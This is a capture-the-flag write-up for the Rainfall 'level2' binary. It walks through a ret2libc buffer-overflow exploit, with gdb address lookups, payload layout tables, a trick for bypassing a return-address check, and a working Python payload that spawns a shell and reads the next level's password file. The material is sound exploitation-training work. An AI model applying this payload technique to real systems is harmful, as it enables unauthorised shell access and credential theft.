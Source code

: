 ## Return of the libc (level2)

As in the last level, this [binary](source.c) uses gets, which allows us to
rewrite the return address of the function where it is called and to move the
instruction pointer where we want. The main difference here is that there is no
function calling a shell in the binary, so we will have to do it ourself.

For this we will execute an exploit called
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/), which
will simply make us return inside a libc function. To launch a shell all we have
to do is to get the [system](https://linux.die.net/man/3/system) function's
address and pass a command string like `/bin/sh` to it. We will also use exit as
system's own return address so that the exploit exits cleanly.

### step 1: Get the addresses

```shell
# run gdb on the binary
gdb ./level2
# break on main
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
# get system's address
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

Now that we have our two function addresses, all we need left is an address
pointing to a shell string. To do that we are going to include the said string
at the begining of our payload and use strdup's returned value as the command
argument for system.

```shell
# break in the p function
(gdb) b e
Breakpoint 2 at 0x80484da
(gdb) c
Continuing.

Breakpoint 2, 0x080484da in p ()
# disassemble the function
(gdb) disass
... # removed some lines for brevity
   0x08048534 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
...
# break on the instruction after the strdup call
(gdb) b *0x0804853d
Breakpoint 3 at 0x804853d
(gdb) c
Continuing.
# now we reach the gets call so input the command string
/bin/sh
/bin/sh # the puts call which gives us back what we entered

Breakpoint 3, 0x0804853d in p ()
# now that we passed the strdup call, see the return value
(gdb) p (char *)$eax
$4 = 0x804a008 "/bin/sh"
```

### step 2: Build the payload

| command string (8) | padding (72) | system (4) | exit (4)   | strdup return (4) |
|--------------------|--------------|------------|------------|-------------------|
| "/bin/sh"          | 0x909090...  | 0xb7e6b060 | 0xb7e5ebe0 | 0x804a008         |

> The padding is made of 0x90 bytes which are noop instructions. This is not
> really necessary since this part of the memory is not gonna be executed but
> this is an "exploit good practice" I guess. Also, the addresses contained
> in the payload will need to be reversed because the rainfall system is little
> endian.

We place the command string first so that it gets copied by the strdup call. It
is eight bytes long because it ends with a null byte. Then we add 72 bytes of
padding. The buffer to overflow is 76 bytes long and since the return address of
the function _p_ is at $ebp + 4, we need to add 4 bytes to start overwriting it.
After that we can place system's address where we will go once _p_ returns. The
exit address will be the return address of the system call and finally we can
pass the argument of system which is the result of the strdup call.

This would work in "normal" circumstances. But here, the binary checks that
_p_'s return address does not start with 0xb, which is the case here with
system's address. This broadly excludes any stack address or library functions.
The trick to remedy this is to use the ret instruction of the _p_ function
itself. As shown above, its address is _0x0804853e_, which passes the stack
test. We just have to insert it before the system address in the payload.

So instead of the p's ret instruction directly poping the system's address and
loading it into _eip_ (the instruction pointer), it will loop on itself once
before eventually doing so. However, the overall logic remains the same:

| command string (8) | padding (72) | ret        |system (4)  | exit (4)   | strdup return (4) |
|--------------------|--------------|------------|------------|------------|-------------------|
| "/bin/sh"          | 0x909090...  | 0x0804853e | 0xb7e6b060 | 0xb7e5ebe0 | 0x804a008         |

```shell
# finally feed the complete payload to the binary
(python -c 'print "/bin/sh\x00" + "\x90" * 72 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2
/bin/sh
# the shell is yours
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
